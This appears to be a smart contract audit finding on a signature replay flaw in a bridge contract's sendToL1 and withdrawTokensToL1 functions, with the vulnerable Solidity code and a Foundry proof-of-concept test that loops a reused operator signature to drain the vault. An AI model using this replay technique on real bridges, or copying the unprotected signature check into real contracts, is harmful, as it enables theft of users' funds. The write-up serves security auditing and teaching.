 **Description:** The `v, r and s` values are stored on-chain when calling `L1bossBridge::sendToL1`: 

```javascript
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
        address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);

        if (!signers[signer]) {
            revert L1BossBridge__Unauthorized();
        }

        (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));

~~>     (bool success,) = target.call{ value: value }(data);
        if (!success) {
            revert L1BossBridge__CallFailed();
        }
    }
```

And when the signer withdraw tokens back to the L1, there are no checks to prevent using again the same signature:

```javascript
function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
        sendToL1(
            v,
            r,
            s,
            abi.encode(
                address(token),
                0, // value
~~>             abi.encodeCall(IERC20.transferFrom, (address(vault), to, amount))
            )
        );
    }
```

**Impact:** Anyone can execute a signature replay attack after the signature is on-chain, disrupting the token balance between the L1 and L2 chains.

**Proof of Concept:** Run this test on your `L1TokenBridge.t.sol` unit suite:

```javascript
function testSignatureReplay() public {
    address attacker = makeAddr("attacker");
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

    bytes memory message = abi.encode(address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance)));
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

    while(token.balanceOf(address(vault)) > 0){
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }

    assertEq(token.balanceOf(attacker), attackerInitialBalance + vaultInitialBalance);
```